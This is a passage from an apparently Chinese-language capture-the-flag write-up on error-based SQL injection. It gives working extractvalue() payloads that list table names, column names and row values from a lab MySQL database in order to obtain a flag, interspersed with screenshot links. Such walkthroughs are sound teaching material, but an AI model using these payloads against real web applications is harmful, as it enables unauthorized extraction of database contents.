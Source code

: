 3.  爆出当前数据库中第1-3个表(加了`limit` 逐一查询)的名称：`' and extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema = 'mydbs' limit 0,1)))--+`![在这里插入图片描述](img/ccf7f5a1ba2cbe576df4e36789a63b98.png)![在这里插入图片描述](img/e902aa72a165eda42622da0c9cdd7005.png)![在这里插入图片描述](img/8738f2282c77bfedff621ccc7356c20e.png)
4.  爆出motto表的字段的名称：`' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema = 'mydbs' and table_name = 'motto')))--+`
    ![在这里插入图片描述](img/b727f8f95e67eb8bf2248d76d49c2e25.png)
5.  逐一爆出`motto`字段值，获得Flag：`' and extractvalue(1,concat(0x7e,(select motto from motto limit 0,1)))--+`